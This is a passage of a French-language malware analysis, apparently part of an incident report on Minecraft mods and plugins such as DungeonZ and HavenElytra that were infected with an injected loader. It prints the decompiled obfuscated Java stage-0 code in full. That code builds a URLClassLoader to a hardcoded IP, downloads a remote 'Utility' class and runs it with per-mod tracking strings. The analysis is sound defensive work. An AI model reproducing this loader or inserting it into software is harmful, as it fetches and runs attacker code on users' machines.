 Les mods ou plugins affectés ont une nouvelle méthode `static void` inséré dans leur classe principale, ainsi qu'un appel vers cette méthode inséré dans l'initialiseur de la class. Pour DungeonZ, la méthode s'appelle `_d1385bd3c36f464882460aa4f0484c53` et se trouve dans `net.dungeonz.Dungeonmain`. Pour skyblock Core, la méthode s'appelle `_f7dba6a3a72049a78a308a774a847180` et se trouve dans `com.bmc.coremod.BMCSkyblockcore`. Pour HavenElytra, le code est inséré directement dans l'initialiseur de `valorless.havenelytra.HavenElytra`.

Le code est obfusqué, utilisant `new string(new byte[]{...})` au lieu de str litéraux.

Dans l'échantillon de D3SL "Create Infernal Expansion Plus", une version plagiant "Create Infernat Expansion Compat" avec un malware inséré dans la classe principale:
```java
static void _1685f49242dd46ef9c553d8af1a4e0bb() {
  Class.forName(new String(new byte[] {
      // "Utility"
    85, 116, 105, 108, 105, 116, 121
  }), true, (ClassLoader) Class.forName(new String(new byte[] {
      // "java.net.URLClassLoader"
    106, 97, 118, 97, 46, 110, 101, 116, 46, 85, 82, 76, 67, 108, 97, 115, 115, 76, 111, 97, 100, 101, 114
  })).getConstructor(URL[].class).newInstance(new URL[] {
    new URL(new String(new byte[] {
        // "http"
      104, 116, 116, 112
    }), new String(new byte[] {
        // "85.217.144.130"
      56, 53, 46, 50, 49, 55, 46, 49, 52, 52, 46, 49, 51, 48
    }), 8080, new String(new byte[] {
        // "/dl"
        47, 100, 108
        }))
  })).getMethod(new String(new byte[] {
      // "run"
    114, 117, 110
  }), String.class).invoke((Object) null, "-114.-18.38.108.-100");
}
```

Ce code:
1. Crée un `URLClassLoader` avec l'url `http://[85.217.144.130:8080]/dl` ([shodan](https://www.shodan.io/host/85.217.144.130))
2. Charge une classe `Utility` depuis le loader, prenant du code d'internet.
3. Appelle la méthode `run` dans la classe `Utility`, donnant en paramètre un str différent pour chaque mod infecté (!). E.g.
    * Skyblock Core: "`-74.-10.78.-106.12`"
    * Dungeonz: "`-114.-18.38.108.-100`"
    * HavenElytra: "`-114.-18.38.108.-100`"
    * Vault Integrations: "`-114.-18.38.108.-100`"

Les numerals sont ecrit dans un fichier nommé ".ref" sous forme de bits. Cela ressemble a un moyen pour l'auteur de suivre l'infection.

La création du classloader est hardcodé dans cet URL et n'utilise pas l'URL Cloudflare comme le fichier de l'Étape 1. Comme cette IP est dorénavant hors ligne, cela signifie que les charges utilies des fichier Étape 0 *desquels nous sommes au courant* ne fonctionnenet plus.
